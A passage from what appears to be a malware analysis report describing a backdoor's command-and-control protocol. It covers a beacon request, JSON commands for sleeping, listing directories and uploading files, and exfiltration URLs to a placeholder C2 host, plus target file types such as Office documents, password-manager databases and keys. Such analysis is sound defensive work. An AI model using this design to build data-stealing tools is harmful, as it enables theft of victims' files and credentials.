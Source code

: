 GET hxxp://[C2 address]/ech/echo.php?req=rr&u=[computername]_[username]




The expected response carries a command to be executed and needs to be formatted as JSON. It is then parsed using the open-source library JsonCPP, where the following commands are supported:



cmd
cmd2
cmd3
Description


delay
argument: time to sleep in milliseconds
–
Sleep for a given amount of milliseconds


uploadsf
argument: path to directory that will be enumerated for file upload
–
Upload all the files in the argument repository.
The upload is performed by using the following POST request:
hxxps://[C2]/up/uploadx.php?=u=[computername]_[username]


uploads
argument: path to directory that will be enumerated for file upload
–
Upload files in the argument repository.
The malware is looking for files carrying specific extensions: .rtf, .doc, .docx, .xls, .xlsx, .ppt, .pptx, .pps, .ppsx, .txt, .gpg, .pkr, .kdbx, .key, .jpg. These formats suggest that the threat actor is interested in Office documents, encryption keys, password manager files and image files.The upload is performed by using the same POST request as the one used by the ‘uploadsf’ command


upload
argument: path to file to upload
–
Upload a specific file (argument) using the same URL than the ‘uploadsf’ command


smart
dir
–
List files and repositories.
The listing is sent to
hxxp://[C2]/ech/rite.php


smart
upload
–
upload files with carrying specific extensions (.pdf, .rtf, .doc, .docx, .xls, .xlsx, .ppt, .pptx, .pps, .ppsx, .txt; .jpg, .kdbx, .key) from pre-defined, common directories, namely: Desktop, Documents, Pictures, Downloads, ViberPC, Skype, Telegram and additional drives.
